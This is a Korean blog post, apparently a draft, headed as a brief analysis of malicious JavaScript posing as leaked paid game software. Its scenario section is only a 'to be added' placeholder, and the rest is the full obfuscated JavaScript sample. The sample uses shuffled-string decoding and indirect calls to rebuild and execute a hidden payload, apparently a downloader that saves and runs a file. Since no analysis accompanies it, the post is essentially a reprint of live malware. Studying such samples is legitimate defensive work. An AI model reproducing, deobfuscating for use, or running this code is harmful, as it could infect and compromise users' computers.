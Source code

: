 ```yaml
---

layout: post

title: 유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석

subtitle: Analysis of malicious JavaScript code pretending to leaked game software

excerpt: 유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석

tags:

- Javascript

- Analysis

- Malware

published: true
---
```


  

#### 유출된 유료 게임 소프트웨어를 가장한 악성 JavaScript에 대한 간단한 코드 분석
Analysis of malicious JavaScript code pretending to leaked game software
  


##### 0. 시나리오

  

추가예정.

  

  

  

  

  

```javascript

function fW4(gT78,QU36) {oJ47 = SK92;pl56=qN252; while (pl56 < Mg89) {Vw3 = kZ37("c\h\arAt",gT78,pl56);if (pl56 % (KN79+KN79)) oJ47=oJ47+Vw3; else oJ47=Vw3+oJ47; pl56++; }return (oJ47);}function TZ76(hH33){KN79=hH33;xj34=KN79+hH33*KN79+hH33;Mg89=2269;}

function VX30() {FQ96 = kZ37("sp\l\it",ew84,Li29);}function kZ37(iy87,tS71,cl45){ QO71=tS71[iy87](cl45); return QO71;}function nb5() {FQ96[xj34](FQ96[KN79])(FQ96[KN79]);}function EO49(Fg50){AP9826 = 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre 8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/} g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d 2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5= 5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';qN252=Fg50;SK92 = "";}Li29="qylIx";EO49(0);TZ76(1);ew84=fW4(AP9826,qN252);VX30();function NW87() {FQ96[xj34] = EO49[FQ96[qN252]];}NW87();nb5();

```
